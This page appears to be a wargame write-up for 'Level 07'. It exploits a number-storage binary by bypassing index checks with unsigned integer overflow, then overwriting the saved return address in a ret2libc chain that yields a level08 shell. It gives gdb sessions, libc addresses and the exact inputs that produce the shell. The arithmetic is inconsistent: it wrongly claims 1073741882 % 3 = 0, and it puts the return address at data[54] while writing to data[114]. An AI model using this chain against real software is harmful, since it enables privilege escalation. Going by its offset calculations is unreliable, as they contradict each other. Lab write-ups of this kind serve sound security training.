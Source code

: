 ```yaml
---
sidebar_position: 8
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 🧃 Level 07

<MissionObjective 
  level="Level 07"
  target="level08 privileges"
  method="Arbitrary memory write via integer overflow"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Integer Overflow & Arbitrary Memory Write"
  severity="high"
  description="The binary provides a number storage service with flawed index validation. While it restricts certain indices, unsigned integer overflow can be used to bypass these checks and write to arbitrary memory locations, including the return address on the stack."
  techniques={[
    "Integer Overflow",
    "Return Address Overwrite",
    "ret2libc Attack"
  ]}
/>

## Binary Analysis

The program presents a simple interactive CLI:

<CodeBlock 
  title="Program Interface"
  command="./level07"
  output={`----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------`}
/>

### Available Commands:
- `store`: Store a number at a given index
- `read`: Read the value at a given index  
- `quit`: Exit the program

## Vulnerability Discovery

<CodeBlock 
  title="Vulnerable Code Analysis"
  command="# In store_number() function:"
  output={`int data[100]; // global array

int store_number(int *data) {
    int number, index;

    printf(" Number: ");
    number = read_number();

    printf(" Index: ");
    index = read_number();

    if ((index % 3) == 0 || index < 0 || index > 99) {
        puts("*** ERROR! ***");
        puts(" This index is reserved for wil!");
        puts("*** ERROR! ***");
        return 1;
    }

    data[index] = number;
    return 0;
}`}
/>

**Key Vulnerability:** Even though index bounds are partially checked, we can bypass them via **unsigned integer overflow**.

## Memory Layout Analysis

<CodeBlock 
  title="Finding data array address"
  command="gdb ./level07"
  output={`(gdb) b read_number
(gdb) r
Input command: read

(gdb) x/x $ebp+8
0xffffd530: 0xffffd554`}
/>

**Data array location:** `0xffffd554`

<CodeBlock 
  title="Calculating EIP offset"
  command="# Memory layout calculation"
  output={`EIP address: 0xffffd62c
DATA address: 0xffffd554
Diff: 0xffffd62c - 0xffffd554 = 0xd8 = 216 bytes
216 / 4 = 54 (array index for EIP)`}
/>

So `data[54]` corresponds to the saved return address (EIP).

## ret2libc Preparation

<CodeBlock 
  title="Finding system() and '/bin/sh' addresses"
  command="gdb ./level07"
  output={`(gdb) info function system
=> system() = 0xf7e6aed0

(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
=> 0xf7f897ec`}
/>

**Addresses in decimal:**
- `system()`: `0xf7e6aed0` = **4159090384**
- `"/bin/sh"`: `0xf7f897ec` = **4160264172**

## Integer Overflow Bypass

Index 54 is forbidden because `54 % 3 == 0`. We use unsigned integer overflow:

<CodeBlock 
  title="Overflow calculation"
  command="# Bypass calculation"
  output={`To access index 54 via overflow:
Index = (UINT_MAX + 1) / 4 + 54 = 1073741882
1073741882 % 3 = 0 ❌ (still forbidden)

Try: (UINT_MAX + 1) / 4 + 54 + offset
1073741938 % 3 = 1 ✅ (allowed)

Index 1073741938 maps to data[114] in the array`}
/>

## Live Demonstration

<AsciinemaPlayer 
  src="/level07.cast" 
  id="level07-exploit" 
/>

## Step-by-Step Solution

<StepsList steps={[
  {
    title: "Launch the binary",
    description: "Start the number storage service.",
    command: "./level07",
    output: "Welcome to wil's crappy number storage service!"
  },
  {
    title: "Store system() address",
    description: "Overwrite the return address with system() using integer overflow.",
    command: "Input command: store\nNumber: 4159090384\nIndex: 1073741938",
    output: "Stored successfully"
  },
  {
    title: "Store '/bin/sh' argument",
    description: "Place the '/bin/sh' string as the first argument to system().",
    command: "Input command: store\nNumber: 4160264172\nIndex: 116",
    output: "Stored successfully"
  },
  {
    title: "Trigger the exploit",
    description: "Exit the program to execute our ret2libc chain.",
    command: "Input command: quit",
    output: "$ # Shell with level08 privileges"
  },
  {
    title: "Verify elevated privileges",
    description: "Confirm we have level08 access.",
    command: "whoami",
    output: "level08"
  }
]} />

## Key Takeaways

- **Integer overflow** can bypass index validation checks
- **Array bounds checking** must account for unsigned integer wraparound
- **ret2libc attacks** don't require shellcode injection
- **Memory layout analysis** is crucial for calculating correct offsets
- **GDB debugging** helps identify exact memory addresses at runtime

**Tools used:** `gdb`, memory layout analysis, integer overflow exploitation, ret2libc technique

:::warning Important Note
Memory addresses vary between sessions. Always use GDB to find the current addresses of `system()` and `"/bin/sh"` for your specific environment. The addresses shown here are examples from a specific debugging session.
::: 